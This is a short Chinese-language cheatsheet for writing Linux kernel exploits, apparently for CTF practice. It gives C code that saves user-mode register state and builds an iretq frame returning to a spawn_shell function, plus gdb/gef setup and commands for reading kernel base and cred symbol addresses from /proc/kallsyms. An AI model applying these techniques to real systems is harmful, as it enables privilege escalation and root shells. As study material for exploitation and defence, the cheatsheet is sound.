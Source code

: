 ```yaml
---
title: kernel exp cheatsheet
---
```


## EXP 编写

### 保存状态

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>

// -masm=intel
size_t user_cs, user_ss, user_rflags, user_sp;

void saveStatus()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
}

// 设置 iretq 参数
payload[++i] = (unsigned long)spawn_shell; // userland rip
payload[++i] = user_cs;
payload[++i] = user_rflags;
payload[++i] = user_sp;
payload[++i] = user_ss;
```



## gdb 技巧

### gdbscript

```bash title="gdbscript"
init-gef
gef-remote localhost 1234
pi reset_architecture("X86")
add-symbol-file vmlinux  # 如果开了 KASLR 要设置基址
# add-symbol-file fs/vuln.ko addr
```

### 获取基址

```bash title="qemu-terminal"
lsmod  # 获取 module 基址
grep "_text" | cat /proc/kallsyms  # 获取 kernel 基址
grep "cred" | cat /proc/kallsyms  # 获取 kernel 特定函数地址
```



### gadget 技巧

带符号表解压工具：[marin-m/vmlinux-to-elf](https://github.com/marin-m/vmlinux-to-elf)

vmlinux base: 0xffffffff81000000

